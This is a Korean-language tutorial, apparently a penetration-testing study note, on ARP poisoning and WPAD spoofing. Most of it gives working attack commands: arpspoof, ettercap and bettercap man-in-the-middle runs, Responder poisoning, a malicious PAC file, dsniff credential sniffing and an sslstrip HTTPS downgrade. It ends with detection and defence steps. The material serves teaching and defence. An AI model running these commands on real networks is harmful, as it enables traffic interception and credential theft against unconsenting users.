

## 1. 개념

### ARP Poisoning (ARP Spoofing)
**ARP Poisoning**은 로컬 네트워크(L2)에서 공격자가 자신의 MAC 주소를 게이트웨이 또는 다른 호스트의 IP 주소로 위장하는 공격 기법입니다.
이를 통해 피해자의 트래픽을 가로채는 중간자 공격(MITM)을 수행할 수 있습니다.

| 항목 | 설명 |
|------|------|
| 계층 | L2 (데이터 링크) |
| 목적 | MITM (Man-in-the-Middle) |
| 전제 | 같은 서브넷 내 |

### WPAD Spoofing
**WPAD (Web Proxy Auto-Discovery)**를 악용하여 피해자의 프록시 설정을 조작.

### 공격 흐름



---

## 2. ARP Poisoning 공격

### Kali Linux에서 arpspoof 사용
```bash
# 1. IP 포워딩 활성화
echo 1 > /proc/sys/net/ipv4/ip_forward

# 2. ARP Poisoning 시작
# 피해자에게 "나는 게이트웨이다" 위장
arpspoof -i eth0 -t 192.168.1.100 192.168.1.1

# 게이트웨이에게 "나는 피해자다" 위장 (양방향)
arpspoof -i eth0 -t 192.168.1.1 192.168.1.100
```

### Ettercap 사용
```bash
# 그래픽 모드
ettercap -G

# CLI 모드
ettercap -T -q -i eth0 -M arp:remote /192.168.1.100// /192.168.1.1//
```

### Bettercap 사용
```bash
bettercap -iface eth0
> net.probe on
> set arp.spoof.targets 192.168.1.100
> arp.spoof on
> net.sniff on
```

---

## 3. WPAD Spoofing

### 공격 원리
1. 클라이언트가 DHCP/DNS로 WPAD 서버 검색
2. 공격자가 가짜 WPAD 서버 응답
3. 악성 PAC 파일 제공
4. 모든 트래픽이 공격자 프록시 경유

### Responder 사용
```bash
# WPAD, LLMNR, NBT-NS Spoofing
responder -I eth0 -wrf
```

### 악성 PAC 파일 예시
```javascript
function FindProxyForURL(url, host) {
    return "PROXY 192.168.1.200:8080";
}
```

---

## 4. 트래픽 가로채기

### HTTP 패킷 캡처
```bash
# 평문 자격 증명 캡처
dsniff -i eth0

# HTTP 트래픽 덤프
urlsnarf -i eth0
```

### SSL Strip (HTTPS 다운그레이드)
```bash
# iptables로 HTTP 리다이렉트
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000

# sslstrip 실행
sslstrip -l 10000
```

---

## 5. 탐지 및 방어

### 탐지 방법
```bash
# ARP 테이블 모니터링
arp -a
watch -n 1 "arp -a"

# ARP 중복 감지 도구
arpwatch
```

### 방어 방법

| 방법 | 설명 |
|------|------|
| Static ARP | 정적 ARP 엔트리 |
| DAI | Dynamic ARP Inspection (스위치) |
| 802.1X | 포트 기반 인증 |
| NAC | Network Access Control |

### Cisco 스위치 DAI 설정
```cisco
Switch(config)# ip arp inspection vlan 10
Switch(config)# interface g0/1
Switch(config-if)# ip arp inspection trust
```

### WPAD 비활성화
```powershell
# Windows
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Wpad" -Name "WpadOverride" -Value 1
```

<hr class="short-rule">
